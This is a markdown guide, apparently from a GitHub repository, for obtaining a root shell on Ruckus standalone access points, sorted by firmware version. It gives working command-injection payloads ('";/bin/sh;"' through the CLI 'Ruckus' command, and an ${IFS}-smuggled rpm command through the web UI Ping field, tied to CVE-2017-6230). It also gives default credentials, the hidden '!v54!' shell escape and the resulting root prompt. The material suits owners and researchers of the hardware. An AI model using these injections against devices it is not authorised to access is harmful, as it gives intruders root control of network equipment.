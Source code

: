 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes a hidden `!v54!` command which exits to a root shell.  

* Very old AP firmware checks a configuration setting `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
* Newer AP firmware checks an encrypted serial# to decide whether the `!v54!` command is available.  
The encrypted serial# is saved to a file using the `Ruckus` command, then the `!v54!` command uses `sesame` to decrypt this file.

## Firmware >112.0

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares.  

If your AP was released before mid-2019 then you can downgrade to an older Solo firmware. If there are no older Solo firmwares, but your AP model was supported in ZoneDirector before this date (e.g. R730) then you can download the ZoneDirector release, [decrypt the image](ZDecryptRuckusBackups.md), extract the relevant ZoneDirector AP image (e.g. using 7-Zip) and temporarily install this.

For the R730, the [ZoneDirector 10.1.2.0.120](https://support.ruckuswireless.com/software/1970-zd1200-10-1-2-0-210-mr2-refresh1-software-release) firmware contains a suitable AP image at ```firmwares/ap-patch/patch000/ap-arm-11ax/10.1.2.0.120/rcks_fw.bl7.main```.

Alternatively, if your AP has Unleashed firmware available then you can install and use this to [obtain a root shell](UnleashedAddRootShell.md).

## Firmware 9.8 - 112.0 (excl. 110.0.0.0.2005)

These AP firmware versions [don't sanitize the encrypted serial#](https://alephsecurity.com/vulns/aleph-2019014#proof-of-concept).  
So we can use the `Ruckus` command to inject a root shell.
> Note that the injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256-cbc
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions [don't sanitize the input to the Ping diagnostic tool](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230).  
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256-cbc
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.

